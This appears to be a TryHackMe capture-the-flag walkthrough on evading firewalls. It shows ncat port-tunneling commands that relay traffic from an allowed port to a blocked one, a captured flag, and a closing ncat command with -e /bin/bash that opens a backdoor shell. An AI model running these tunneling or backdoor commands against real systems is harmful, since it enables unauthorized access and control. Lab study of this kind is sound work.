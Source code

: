 ncat -lvnp 443 -c "ncat TARGET_SERVER 25"

The command ncat uses the following options:

    -lvnp 443 listens on TCP port 443. Because the port number is less than 1024, you need to run ncat as root in this case.
    -c or --sh-exec executes the given command via /bin/sh.
    "ncat TARGET_SERVER 25" will connect to the target server at port 25.

As a result, ncat will listen on port 443, but it will forward all packets to port 25 on the target server. Because in this case, the firewall is blocking port 25 and allowing port 443, port tunneling is an efficient way to evade the firewall.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5f04259cf9bf5b57aed2c476/room-content/ef6b903dbb6c4eb20051f9ddd5b9fa8f.png)



We have a web server listening on the HTTP port, 80. The firewall is blocking traffic to port 80 from the untrusted network; however, we have discovered that traffic to TCP port 8008 is not blocked. We’re continuing to use the web-form from Task 6 to set up the ncat listener that forwards the packets received to the forwarded port. Using port tunneling, browse to the web server and retrieve the flag.

Revisit the command ncat -lvnp 443 -c "ncat TARGET_SERVER 25" and update with the suitable port numbers. Note that TARGET_SERVER should be replaced with localhost.

Let's set up a port forwarding from port 80 to 8008 on the webserver from the vulnerable form hosted on port 8080 :

  ncat -lvnp 8008 -c "ncat localhost 80"

Then try to connect netcat to the server with the non-filtered port in the firewall 8008 and request the website with a GET / HTTP request :

```
root@ip-10-10-15-106:~# nc 10.10.99.203 8008
GET /
<!DOCTYPE html>
<html>
<head>
<meta charset="utf-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>Welcome to Our Local Server</title>
</head>
<body>
        THM{1298331956}
</body>
</html>
```

![](https://www.cyb3rm3.com/web/image/1299-33cb6d2e/2022-02-26%2015_09_37-TryHackMe%20_%20Firewalls.png)


### Evasion Using Non-Standard Ports 



ncat -lvnp PORT_NUMBER -e /bin/bash will create a backdoor via the specified port number that lets you interact with the Bash shell.
